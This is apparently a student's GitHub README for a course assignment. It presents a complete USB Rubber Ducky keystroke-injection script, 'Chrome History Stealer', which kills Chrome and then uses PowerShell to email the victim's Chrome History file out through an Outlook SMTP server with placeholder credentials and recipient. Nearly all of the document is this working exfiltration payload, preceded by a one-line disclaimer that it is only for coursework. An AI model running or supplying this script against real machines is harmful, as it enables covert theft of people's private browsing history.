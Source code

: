 # Chrome History Stealer - Windows 10
## Hassan Chadad
## CS-683 USB Rubber Ducky Assignment

This ducky script will get Chrome's Browser History and send it by email.<br/>
Steps to write the script:
1. Open cmd
2. Close Chrome Browser to be able to access the Chrome History File
3. Open Powershell
4. Send Chrome History File by email
5. Close the powershell

**This script is tended to be for the course's assignment and I don't aim to use it harm or do any real attacks.**

```
REM ---------Open start Menu---------
CONTROL ESCAPE
DELAY 500
REM ---------Type cmd---------
STRING cmd 
DELAY 300
REM ---------Open cmd---------
ENTER
DELAY 500
REM ---------Close the chrome process and all its children---------
STRING taskkill /F /IM chrome.exe /T
ENTER
DELAY 500
REM ---------close cmd---------
STRING exit
ENTER
DELAY 300
REM ---------Open start Menu---------
CONTROL ESCAPE
DELAY 300
REM ---------Open Powershell---------
STRING powershell
ENTER
DELAY 1000
REM ---------Send Chrome's History File by Email---------
STRING $SMTPServer = 'smtp.outlook.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('fromEmail@hotmail.com', 'password');
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'fromEmail@hotmail.com'
ENTER
STRING $ReportEmail.To.Add('toemail@gmail.com')
ENTER
STRING $ReportEmail.Subject = 'Chrome Browser history Ducky'
ENTER
STRING $ReportEmail.Body = 'Attached is your list of visited sites.' 
ENTER
STRING $ReportEmail.Attachments.Add('./AppData/Local/Google/Chrome/User Data/Default/History')
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
DELAY 10000
REM ---------Close Powershell---------
STRING exit
ENTER
```
